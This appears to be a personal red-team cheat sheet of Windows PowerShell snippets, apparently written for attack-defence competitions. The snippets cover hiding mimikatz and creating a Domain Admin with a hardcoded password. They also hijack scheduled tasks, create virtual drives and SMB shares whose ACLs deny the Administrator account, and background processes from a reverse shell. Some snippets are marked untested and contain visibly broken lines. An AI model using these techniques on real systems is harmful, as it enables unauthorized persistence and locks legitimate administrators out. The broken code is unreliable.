 # Red Windows

Website 
`Ctrl + Shift + R` - cache refresh pages to ensure last game does not misinform as to current context

Background programs useful when you only have one reverse shell
```powershell
start /B $command


Start-Job -ScriptBlock { Start-Process -FilePath "C:\Programdata\Word.exe" -Wait -WindowStyle Hidden }
```


Change the keyboard layout - check in scope if so force any new user to have a weird keyboard layout
```powershell
Set-WinUserLanguageList -Force 'en-US'
```

Hiding binaries
```powershll
attrib.exe +h mimikatz.exe
```

Add a Domain Admin
```powershell
# Check the password requirements before!
dsadd user "CN=John,CN=Users,DC=object,DC=local" -samid John -pwd johnspassword123! -display "John" -pwdneverexpires yes -memberof "DC=Domain Admins,CN=Users,DC=object,DC=local"
```

Assimilate a schduledtask
```powershell
# Find task and its excution path to hijack
get-scheduledtask | findstr /v Disabled
$task = get-scheduledtask -taskname <name>
$task | fl
$task.Actions.Execute | fl
$content = Get-Content -Path 'C:\file'
$newContent = $content -replace '<adversary-ip>', '<your-ip>'
$newContent | Set-Content -Path 'C:\file'
```


I NEED TO TEST THIS:

You may want to create all the secondary drives or all the drives possible to block others from using any of the drives. 
```powershell
$persistenceUser = "User1"

for ($i=0; $i -lt 26; $i++) {
  $driveLetter = [char]($i + 65) + ":"
  if (!(Get-Volume | Where-Object DriveLetter -eq $driveLetter)) {
    $newDisk = New-VirtualDisk -DriveLetter $driveLetter -Size 25MB
    $acl = Get-Acl -Path $newDisk.DriveLetter
    $persistenceUserRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $persistenceUserAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule($persistenceUser, $persistenceUserRights, "Allow")
    $acl.SetAccessRule($persistenceUserAccessRule)
    $otherUsersRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $otherUsersAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("Administrator", $otherUsersRights, "Deny")
    $acl.SetAccessRule($otherUsersAccessRule)
    Set-Acl -Path $newDisk.DriveLetter -AclObject $acl
  }
}

```

Create a file share - the longer the path for copy and paste and shell nightmares
```powershell
#

# -ConcurrentUserLimit to prevent hacky breaking into destroy the share 

New-SmbShare -Name MyFileShare -Path $goodPath -FullAccess $persistenceUser -EncryptData $True -ConcurrentUserLimit 1 -ContinuouslyAvailable -Temporary
# You can set up an inital connection to a remote host with output from
#  New-CimSession Get-CimSession
-Cim-Session 


# Add to known adversary accounts -NoAccess Administrator

$Parameters = @{
    Name = '$Name'
    Path = $goodPath
    FullAccess = 'Contoso\Administrator', 'Contoso\Contoso-HV1$'
    EncryptData = $True
    Temporary = $True
    ContinuouslyAvailable = $True
    NoAccess = 'Administrator' # Prevent access administrator - create persistence user to access
}
New-SmbShare @Parameters
```


